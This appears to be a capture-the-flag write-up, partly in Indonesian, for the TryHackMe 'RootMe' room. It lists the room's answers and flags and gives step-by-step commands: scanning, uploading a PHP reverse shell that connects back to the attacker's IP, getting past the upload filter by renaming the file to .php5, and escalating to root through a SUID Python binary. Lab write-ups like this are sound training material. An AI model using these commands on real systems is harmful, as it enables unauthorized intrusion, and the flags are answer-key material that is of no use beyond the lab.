

# root me
- desc: A ctf for beginners, can you root me?
- url : [https://tryhackme.com/r/room/rrootme](https://tryhackme.com/r/room/rrootme)

# docs
- [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [https://gtfobins.github.io/gtfobins/python/#suid](https://gtfobins.github.io/gtfobins/python/#suid)

# answer
- Task 1
- Task 2
  - 2
  - 2.4.29
  - ssh
  - /panel/
- Task 3
  - THM{y0u_g0t_a_sh3ll}
- Task 4
  - /usr/bin/python
  - THM{pr1v1l3g3_3sc4l4t10n}

# Step By Step
- [step by step](./_step_by_step.md)

# Solve (Visual)
## information gathering
- **Check the Open Ports** \
Langkah pertama adalah memeriksa port yang terbuka pada target dengan menggunakan alat seperti nmap. Berikut adalah hasil dari pemindaian port:

- **Check the Versions and Vulnerabilities** \
Setelah mengetahui port yang terbuka, langkah berikutnya adalah memeriksa versi layanan yang berjalan pada port tersebut untuk mencari potensi **CVE (Common Vulnerabilities and Exposures)** atau kerentanannya.
- **Directory Discovery (Finding Hidden Directories and Files)** \
Langkah berikutnya adalah mencari direktori atau file yang tersembunyi pada server menggunakan tools seperti gobuster, dirsearch, atau dirbuster. Hal ini membantu untuk menemukan area tersembunyi yang mungkin memiliki potensi kerentanannya.

  - **Explore the Found Directories** \
    Setelah menemukan direktori yang menarik, kamu bisa mencoba untuk mengaksesnya secara manual melalui browser atau menggunakan tools seperti curl untuk mengeksplorasi lebih lanjut. Di tahap ini, kamu akan mencari potensi untuk melakukan exploitation atau privilege escalation.
    
    
  - **Explore the /panel Directory**
Direktori **/panel** mungkin adalah panel admin atau area untuk melakukan upload file

## exploit
- **Web Shell Upload**
Web shell upload adalah tindakan meng-upload file berbahaya (umumnya skrip PHP, ASP, atau lainnya) yang dapat dieksekusi di server untuk mendapatkan akses dan kontrol
  - **download the file** [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell)
  - **Check IP Tunnel**: Untuk mengetahui IP tunnel yang kamu miliki, misalnya **10.21.78.122**, kamu bisa menggunakan perintah **ip a** atau **ip addr show tun0** di server. IP ini adalah alamat dari interface yang kamu gunakan untuk tunneling. 
    
  - **Edit File PHP**: Buka file php-reverse-shell.php yang telah diunduh di editor teks atau IDE favoritmu. \
  **Ubah IP dan Port**: Temukan bagian berikut dalam skrip tersebut:
    ```bash
    $ip = '10.21.78.122';  // IP Dari Interface yang kamu miliki (tun0)
    $port = 9001;       // Port yang ingin kamu Listen
    ```
    
  - **Set Up Listener**: Di sisi penyerang, kamu perlu menyiapkan listener untuk mendengarkan koneksi masuk. Kamu bisa menggunakan netcat untuk mendengarkan koneksi pada port yang sama yang kamu tentukan dalam skrip PHP. Di terminal, jalankan:
    ```bash
    nc -lvnp 9001
    ```
    Perintah di atas akan membuat server mendengarkan pada port 9001.
    
  - **Upload Web Shell ke Server**: Jika server yang kamu tuju rentan terhadap upload file, kamu dapat meng-upload file PHP yang telah dimodifikasi tersebut melalui mekanisme upload file yang ada di aplikasi web target (seperti form upload file atau eksploitasi file upload yang lemah).
    
    Namun, jika upaya upload langsung gagal karena pembatasan jenis file, kamu dapat melanjutkan dengan teknik Bypassing File Type Restrictions.
  - **Bypassing file type restrictions**: Mengubah ekstensi file atau menyamarkan file agar server menganggapnya sebagai file yang sah (misalnya mengubah .php2, .php3, .asp, .phtml, .txt, atau ekstensi lain yang tidak diblokir.) atau Menggunakan trik lain seperti menambahkan ekstensi ganda (misalnya shell.php.jpg), atau menyembunyikan file PHP di dalam file gambar dengan mengubah metadata.
    
    
  - **Eksekusi Web Shell**: Setelah file di-upload dan dieksekusi di server target, shell akan mencoba menghubungi IP dan port yang telah kamu tentukan. Jika semuanya berhasil, kamu akan mendapatkan akses ke shell server yang dapat digunakan untuk menjalankan perintah.
    - php2 berhasil upload, namun RCE gagal:
    
    - php5 berhasil upload dan RCE berhasil:
    
    Jika kamu ingin memulai listener atau melakukan reverse shell, pastikan untuk membuka file PHP-nya terlebih dahulu agar backdoor dapat berjalan dengan baik.

## post exploit
Setelah berhasil mendapatkan akses ke server melalui web shell, langkah selanjutnya adalah mengoptimalkan akses yang telah diperoleh untuk mendapatkan kontrol lebih dalam terhadap sistem target. Berikut beberapa langkah yang dapat dilakukan dalam tahap post exploit: \
- **Upgrade TTY Agar Interaktif (Opsional)**: Kadang-kadang, akses shell yang kamu dapatkan tidak sepenuhnya interaktif, yang berarti kamu mungkin tidak bisa menjalankan perintah dengan lancar. Dalam hal ini, kamu bisa melakukan upgrade TTY untuk mendapatkan sesi shell yang lebih stabil dan interaktif.
  
  
- **Mencari SUID, SUDO, dan Akses Privilege Lainnya**
  - **Mencari File SUID (Set User ID)** File yang memiliki bit SUID memungkinkan eksekusi file dengan hak akses pemiliknya, yang seringkali bisa digunakan untuk eskalasi hak akses (privilege escalation). Untuk mencari file SUID di sistem.
  
  - **Mencari Sudoers yang Bisa Dijalankan Tanpa Password**: Jika akun yang kamu gunakan memiliki akses sudo, kamu dapat mencari tahu perintah-perintah apa yang bisa dijalankan tanpa memerlukan password. Gunakan perintah berikut untuk melihat hak akses sudo:
- **Lakukan Eksploitasi jika Sudah Ditemukan**
  Jika kamu menemukan file dengan bit SUID atau perintah yang bisa dijalankan tanpa password, kamu dapat melanjutkan dengan eksploitasi untuk meningkatkan hak akses dan mendapatkan kontrol lebih besar di sistem target.
  
  

# Solve (Text-Based)
## information gathering
```bash
: '[+] setup'
ip=10.10.62.155
tun=10.21.78.122

: '[+] nmap'
nmap -p- -T4 $ip # check all port opened
# Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 17:30 WIB
# Nmap scan report for 10.10.62.155 (10.10.62.155)
# Host is up (0.21s latency).
# Not shown: 65533 closed tcp ports (reset)
# PORT   STATE SERVICE
# 22/tcp open  ssh
# 80/tcp open  http

# Nmap done: 1 IP address (1 host up) scanned in 355.97 seconds

nmap -sCV -p22,80 $ip -oN nmap # check the version for each port opened
# Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 17:32 WIB
# Nmap scan report for 10.10.62.155 (10.10.62.155)
# Host is up (0.21s latency).

# PORT   STATE SERVICE VERSION
# 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
# |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
# |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
# 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
# | http-cookie-flags: 
# |   /: 
# |     PHPSESSID: 
# |_      httponly flag not set
# |_http-title: HackIT - Home
# |_http-server-header: Apache/2.4.29 (Ubuntu)
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done: 1 IP address (1 host up) scanned in 14.54 seconds

: '[+] whatweb'
whatweb http://$ip
# http://10.10.62.155 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.62.155], Script, Title[HackIT - Home]

: '[+] Directory Discovery (gobuster, dirsearch, dirbuster(gui))'
gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o dir
# /uploads              (Status: 301) [Size: 314] [--> http://10.10.62.155/uploads/]
# /css                  (Status: 301) [Size: 310] [--> http://10.10.62.155/css/]
# /js                   (Status: 301) [Size: 309] [--> http://10.10.62.155/js/]
# /panel                (Status: 301) [Size: 312] [--> http://10.10.62.155/panel/]

dirsearch -u http://$ip -e all -o dir
```

## exploit
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

ip a # check the interface tun0
vi php-reverse-shell.php
: 'ubah bagian ini'
# $ip = '10.21.78.122';  // CHANGE THIS
# $port = 9001;       // CHANGE THIS

: 'upload the file to /panel'
# seharusnya akan gagal

cp php-reverse-shell.php sh.php2; cp php-reverse-shell.php sh.php3; cp php-reverse-shell.php sh.php5
# lalu coba bypass dengan mengubah extensionya sepertti php3, php5, dll dan lakukan upload seharusnya berhasil

: 'listen'
nc -lvnp 9001
```

## post exploit
```bash
: 'upgrade tty'
python -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
export TERM=xterm

: 'suid'
find / -type f -user root -perm -4000 2>/dev/null
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/snapd/snap-confine
# /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
# /usr/lib/eject/dmcrypt-get-device
# /usr/lib/openssh/ssh-keysign
# /usr/lib/policykit-1/polkit-agent-helper-1
# /usr/bin/traceroute6.iputils
# /usr/bin/newuidmap
# /usr/bin/newgidmap
# /usr/bin/chsh
# /usr/bin/python
# /usr/bin/chfn
# /usr/bin/gpasswd
# /usr/bin/sudo
# /usr/bin/newgrp
# /usr/bin/passwd
# /usr/bin/pkexec

: 'Jika Menemukan SUID atau Sudoers yang Rentan, langkah selanjutnya adalah mencari eksploitasi yang relevan dengan menggunakan GTFOBins.'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```